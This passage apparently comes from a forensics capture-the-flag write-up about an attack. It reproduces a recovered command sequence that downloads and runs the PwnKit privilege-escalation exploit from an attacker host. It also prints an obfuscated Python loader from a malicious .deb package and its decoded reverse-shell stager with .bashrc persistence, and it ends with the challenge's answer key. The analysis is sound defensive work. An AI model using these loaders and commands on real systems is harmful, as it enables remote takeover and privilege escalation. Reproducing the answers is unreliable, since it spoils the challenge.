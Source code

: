 ### Pwnkit
1. Pwnkit.sh :
    - Recovered in the pcap file :
    ``` bash
    wget http://192.168.1.5:8000/Pwnkit -o PwnKit || exit
    chmod +x ./PwnKit || exit
    (sleep 1 && rm ./PwnKit & )
    ./PwnKit
    ```
    - Download the Pwnkit ELF file make it executable then exit
    - `(sleep 1 && rm ./PwnKit & )` this one is weird, after a little search on google [we get](https://github.com/rhysmcneill/CVE-2021-403/tree/master), it's a privesc with the id CVE-2021-4034

### Cs-linux.deb
1. Extract with : `ar -x cs-linux.deb`
2. Extract the data with : `tar xvf data.tar.zst`
    - In the file ./usr/bin/cs-linux we have :
    ``` python
    #!/usr/bin/env python3
    exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eJw9UN9LwzAQfl7+irCHNcEsrqMbOmxBxAcRGTjfRKRNT1uaJiWXaqfo325Dh/dwx3f33Xc/6razzlO0qgEvvnRdiCJH2CYCveuVF75uQVgkxKLEI3po2RxUZanCpa5NP9DFgmYZ/T2XY2Pl1JyTN+voQGtDXW7egcUrviMz746jn2E6zZJTYGtxwof9zf3r4enx9vqBB55U1hhQnrEovlzLeHshY7mJRDIaD4zCQd6QGQwKOh+kw6oSNUDHNpzodLpA9qbLVcOi7C4SKB2oDzYKPK9eSJmesObks6o1UA2GlfxKj3Ll2X91OaU5gQEUC0+SJSjbdg4Q2fQvWWyTkCwhMMV3hNEOfzj5Axx7baM=')[0])))
    ```
    - base64 decode then zlib decompress (zlib inflate in cyberchef) : 
    ``` python
    import socket,zlib,base64,struct,time,os

    os.system("echo cs-linux && >> ~/.bashrc")
    for x in range(10):
        try:
            s=socket.socket(2,socket.SOCK_STREAM)
            s.connect(('192.168.1.5',4444))
            break
        except:
            time.sleep(5)
    l=struct.unpack('>I',s.recv(4))[0]
    d=s.recv(l)
    while len(d)<l:
        d+=s.recv(l-len(d))
    exec(zlib.decompress(base64.b64decode(d)),{'s':s})
    ```

## Questions
1. What is the IP address of the infected web server?
    > 192.168.1.3
    - cf. Analysis > Linux memory > 3
2. What is the IP address of the Attacker?
    > 192.168.1.5
    - We can see that in the bash history (linux memory > 1) also in the pcap, we see the download of the malware from 1.3 to 1.5
3. How many open ports were discovered by the attacker?
    > 14
    - Cf. Analysis > Pcap > 6
    - With my filter I get 13 [syn, ack] packets, but because I filtered the port 80 and 443 that gave me 15, BUT! He didn't discover the port 80 because he used it previously
4. What are the first five ports identified by the attacker in numerical order during the enumeration phase, not considering the sequence of their discovery?
    > 25,53,80,110,119
    - cf. Analysis > Pcap > 6